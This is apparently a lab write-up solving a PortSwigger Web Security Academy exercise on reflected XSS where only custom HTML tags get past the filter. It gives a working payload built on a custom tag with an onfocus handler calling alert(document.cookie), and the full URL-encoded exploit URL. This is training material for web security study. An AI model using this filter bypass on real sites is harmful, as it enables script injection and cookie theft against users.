

# Reflected XSS into HTML context with all tags blocked except custom ones

## Lab Description :


## Solution :
The search term is reflected in the page response embedded within ``<h1>`` tags.

``<h1>5 search results for 'Hi'</h1>``

When we enter <script>in the search field, it gets blocked.

Use custom tags -
The search url is as follows -
```
https://0a96000b03ae5d4b80e03a7000a2002d.web-security-academy.net/?search=hello
```
We can use the following payload to pop an alert with document.cookie.
```
<deadbeef onfocus=alert(document.cookie)  tabindex=1 id=1';
```
deadbeef - custom tag.

``onfocus=alert(document.cookie)`` - whenever the particular tabindex is focussed, it will trigger a alert.

tabindex=1 - when tab in pressed 1 time , it will get selected.

id=1 - this will help us to specify which tabindex to use.

Final payload -
```
https://ID.web-security-academy.net/?search=%3Cdeadbeef+onfocus%3D%27alert%28document.cookie%29%27+id%3D%27x%27+tabindex%3D%271%27%3E>#x
```
